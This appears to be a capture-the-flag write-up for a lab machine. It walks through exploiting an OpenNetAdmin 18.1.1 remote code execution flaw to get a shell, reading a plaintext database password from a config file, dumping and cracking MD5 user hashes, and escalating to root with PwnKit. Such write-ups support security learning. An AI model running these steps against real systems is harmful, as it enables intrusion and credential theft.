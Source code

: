 So on the /music endpoint when you click on the login button you get sent to a /ona page where you will find that the version is vulnerable to RCE. Using the following tool we can exploit this.
https://github.com/amriunix/ona-rce

```shell
─$ python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ whoami
www-data

```

# Password Reuse
Found this in the /ona folder
```shell
sh$ cat local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?
sh$ 
```

Then checked if it work for jimmy for ssh and it didls

Since we got a password for a database I connected to the mysql

```shell
mysql> select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2024-04-25 14:07:34 | 2024-04-25 14:07:34 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2007-10-30 03:00:17 | 2007-12-02 22:10:26 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)

mysql> 


```
## Hashcat
```shell
21232f297a57a5a743894a0e4a801fc3:admin                    
098f6bcd4621d373cade4e832627b4f6:test
```

# Linux Privilege Escalation
To get root run linpeas and then use the PwnKit CVE to upgrade